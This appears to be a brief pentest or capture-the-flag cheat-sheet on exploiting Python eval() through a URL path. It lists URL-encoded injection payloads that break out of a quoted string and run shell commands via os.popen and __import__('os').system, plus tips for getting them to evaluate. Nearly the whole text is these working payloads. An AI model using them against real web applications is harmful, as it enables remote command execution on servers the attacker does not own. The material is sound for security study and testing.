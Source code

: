 ### Eval used?:
`/hello/"%2bos.popen('ls').read()%2b"`  

_what if there is no system module??_    We IMPORT it :D    **__import__('os').system('ls')**  
If you are grappling with erros, try t run your commands in a python terminal and see if it works
Example of the above 2 points:  
`hello/ddd"%2bstr(__import__('os').system('ls'))%2b"`  

Above we can see that the os module has been imported as well as tthe command being evaluated as a string, as python was trying to eval as an int
